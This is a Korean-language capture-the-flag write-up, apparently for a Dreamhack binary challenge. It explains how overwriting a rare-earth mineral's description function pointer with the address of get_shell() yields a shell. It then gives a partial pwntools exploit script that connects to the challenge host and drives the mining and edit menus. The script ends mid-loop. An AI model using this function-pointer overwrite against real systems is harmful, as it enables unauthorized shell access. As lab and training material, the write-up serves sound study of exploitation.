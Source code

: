 * print_description()이 호출될 때 description()이 실행됨
* 그런데 그 description은 함수 포인터였고 지금은 덮어쓴 주소임

→ **쉘 따기 가능 (get_shell() 주소로 덮어서)**




## 익스플로잇 시나리오

**1. mining()을 반복해서 rare-earth 광물을 하나 발견함**
* 이건 내부적으로 RareEarth* 객체로 저장됨

**2. 발견한 rare-earth의 인덱스를 기억함 (idx 변수)**

**3. 메뉴 3번 (edit_mineral_book)을 실행해서**
* 해당 인덱스를 지정
* description 입력을 get_shell() 주소로 덮어씀

**4. 이후 RareEarth::print_description()이 호출되면**
* 함수 포인터가 get_shell로 되어 있으므로 쉘이 뜸



## 익스플로잇 과정

일단 ida로 바이너리 열어서 get_shell 주소부터 구한다.

<img width="426" height="298" alt="image" src="https://github.com/user-attachments/assets/c37340a4-deb1-4b4f-a031-c6561c8e0dd6" />

"/bin/sh" 사용하는 함수로 역으로 추적하면 찾을 수 있다.

익스플로잇 코드를 작성한다.



```python
from pwn import *
import time

p = remote('host1.dreamhack.games', 13735)

getsh_addr = 0x402576
payload = p64(getsh_addr)
idx = 0

while True:
    print(idx)
    p.recvuntil(b'>> ')       
    p.sendline(b"1")        
    p.recvline()
    time.sleep(1.1)
    a = p.recvline()
    print('output :', a.decode())  

    if a == b"[+] Congratulations! you found an *undiscovered* mineral!\n" or a == b"[+] You found a rare-earth element!\n":
        if a == b"[+] Congratulations! you found an *undiscovered* mineral!\n":
            print('mineral')
            p.recvuntil(b"Please enter mineral's description : ")
            p.sendline(b"aaaa")
            idx += 1
        else:
            print('rare-earth')
            for _ in range(5):
                print(p.recvline().decode())
            p.recvuntil(b'>> ')
            p.sendline(b'3')
            p.recv(12)
```